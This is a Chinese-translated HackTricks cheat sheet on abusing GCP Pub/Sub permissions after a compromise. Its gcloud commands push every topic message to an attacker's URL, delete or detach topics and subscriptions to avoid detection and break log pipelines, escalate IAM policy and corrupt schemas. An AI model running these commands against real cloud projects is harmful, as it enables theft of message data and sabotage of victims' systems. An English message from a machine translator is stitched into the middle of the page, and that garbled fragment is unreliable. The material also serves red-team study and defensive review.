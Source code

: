 # GCP - Pub/Sub 后渗透

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## Pub/Sub

有关 Pub/Sub 的更多信息，请查看以下页面：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

在主题中发布消息，用于**发送意外数据**并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

用于防止订阅接收消息，可能是为了避免被检测到。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

用于防止订阅接收消息，可能是为了避免被检测。\
即使主题已经附加了订阅，也可以删除它。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的某些设置以中断它，例如 `--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key` 等。

### `pubsub.topics.setIamPolicy`

给予自己权限执行任何前述攻击。

### **pubsub.subscriptions.create**，**`pubsub.topics.attachSubscription`**，（`pubsub.subscriptions.consume`）

获取网站服务器中的所有消息：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

创建一个订阅并使用它来**拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅** 可能对破坏日志处理系统或类似系统有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

使用此权限更新某些设置，以便将消息存储在您可以访问的位置（URL、Big Query表、Bucket），或者仅仅是为了扰乱它。

### `pubsub.subscriptions.setIamPolicy`

给予自己执行前面评论过的攻击所需的权限。

### `pubsub.schemas.delete`

删除一个模式，以便能够发送不符合该模式的消息：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将 schema 攻附到 topic 上，使得消息不满足 schema，从而扰乱 topic。\
如果没有任何 schemas，你可能需要创建一个。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
The provided text does not contain any content to translate. It is a closing tag for a code block in markdown syntax. Please provide the relevant English text that needs to be translated into Chinese.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

给自己授权执行前面评论过的任何攻击所需的权限。

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

这将创建所有未确认消息的快照，并将它们放回订阅中。对攻击者来说不是很有用，但这里是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>从零到英雄学习AWS黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
